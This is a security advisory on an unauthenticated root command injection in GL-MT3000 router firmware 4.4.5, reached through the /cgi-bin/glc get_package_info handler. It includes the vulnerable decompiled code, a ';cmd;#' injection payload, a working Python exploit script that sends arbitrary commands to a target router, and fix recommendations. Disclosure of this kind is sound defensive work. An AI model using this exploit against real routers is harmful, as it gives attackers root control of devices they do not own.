


Submission Date: 2026.5.13
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint. The `plugins.so` shared object exports a `get_package_info` function that extracts the `name` parameter from the JSON request body and passes it directly into `sprintf(cmd, "%s info %s >/tmp/opkg.stdout 2>/tmp/opkg.stderr;sync", "opkg --force-overwrite --nocase", name)` followed by `system(cmd)`. No shell quoting is applied. The only validation is an opkg lock file check. An attacker can inject `;cmd;#` to execute arbitrary commands as root without authentication.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc
     {"object":"plugins", "method":"get_package_info",
      "args":{"name":"x;id>/tmp/poc;#"}}

  -> /www/cgi-bin/glc
       dlopen("plugins.so") → dlsym("get_package_info") → handler(args)

  -> plugins.so::get_package_info (0x104000)
       check_file_is_exist("/var/lock/opkg.lock")  // opkg lock gate
       name = json_string_value(json_object_get(args, "name"))

       sprintf(cmd, "%s info %s >/tmp/opkg.stdout 2>/tmp/opkg.stderr;sync",
               "opkg --force-overwrite --nocase", name);
       system(cmd);  // 💣

  -> /bin/sh -c:
       opkg --force-overwrite --nocase info x
       ;id>/tmp/poc       ← 💣 RCE
       ;#                  ← comment
```

The `get_package_info` function at offset 0x104000 contains the sink at line 73-76:



```c
// plugins.so::get_package_info (0x104000)
if (check_file_is_exist("/var/lock/opkg.lock"))
    return "Resource temporarily unavailable";

name = json_string_value(json_object_get(args, "name"));

// gl-tor special handling (flash space check)

// 💣 Sink — sprintf + system, no quoting
sprintf(cmd, "%s info %s >/tmp/opkg.stdout 2>/tmp/opkg.stderr;sync",
        "opkg --force-overwrite --nocase", name);
system(cmd);
```

**Comparison with remove_package:**

| Aspect | remove_package | get_package_info |
|--------|---------------|-----------------|
| Sink template | `remove %s >...` | `info %s >...` |
| Blacklist | `strstr` against 3 private packages | None |
| opkg lock gate | Yes | Yes |
| Network required | No | No |
| `sprintf` (unbounded) | Yes | Yes |

The injection mechanism is identical:

```text
Normal:  name = "somepkg"
         → opkg ... info somepkg > ...
         ✅

Exploit: name = "x;id>/tmp/poc;#"
         → opkg ... info x
         → ;id>/tmp/poc;  ← 💣 RCE
         → ;#              ← comment
```

The exploitation is shown below.



```python
#!/usr/bin/env python3
import json, ssl, sys, urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

req = urllib.request.Request(
    f"{TARGET}/cgi-bin/glc",
    data=json.dumps({"object":"plugins","method":"get_package_info",
        "args":{"name":f"x;{CMD}>/tmp/p19_info 2>&1;#"}}).encode(),
    headers={"Content-Type":"application/json"}, method="POST")
print(urllib.request.urlopen(req, timeout=10, context=ctx).read().decode()[:200])
print("[+] check /tmp/p19_info")
```

**Fix recommendations:**

| Priority | Component | Action |
|----------|-----------|--------|
| P0 | `plugins.so` get_package_info | Replace `sprintf`+`system()` with `fork()`+`execv()` |
| P0 | `plugins.so` get_package_info | Validate name against `^[a-zA-Z0-9][a-zA-Z0-9._-]*$` |
| P0 | `/www/cgi-bin/glc` | Add authentication and method allowlist |
